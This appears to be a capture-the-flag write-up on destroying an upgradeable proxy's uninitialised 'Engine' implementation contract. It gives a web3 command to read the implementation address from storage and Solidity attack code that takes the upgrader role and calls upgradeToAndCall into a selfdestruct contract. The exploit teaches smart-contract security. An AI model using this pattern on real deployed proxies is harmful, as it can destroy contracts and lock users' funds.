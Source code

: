 ### Goals

Selfdestruct engine

### Exploit

When implementing Proxy contracts it's important to initialize the implementation contract. Some contracts utilize `__disableInitializers` in it's constructor to mitigate this issue.

The `Engine` contract is not initialized thus allowing us to initialize it and set our-selves as `Engine::upgrader`. Next we need to call `Engine::upgradeToAndCall()` with our contract that will be selfdestruct.

We would need to get Engine address first.

```code
web3.utils.toChecksumAddress("0x" + (await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")).slice(-40));
```

### Code

Deploy contract in Remix

```code
contract New {
    function bye() public {
        selfdestruct(payable(msg.sender));
    }
}

contract BreakEngine {
    address engine = ENGINE_ADDRESS;

    function pwn() external {
        engine.call(abi.encodeWithSignature("initialize()"));
        engine.call(
            abi.encodeWithSignature(
                "upgradeToAndCall(address,bytes)",
                address(new New()),
                abi.encodeWithSignature("bye()")
            )
        );
    }
}

```

Deploy contract and call `pwn`

Done!

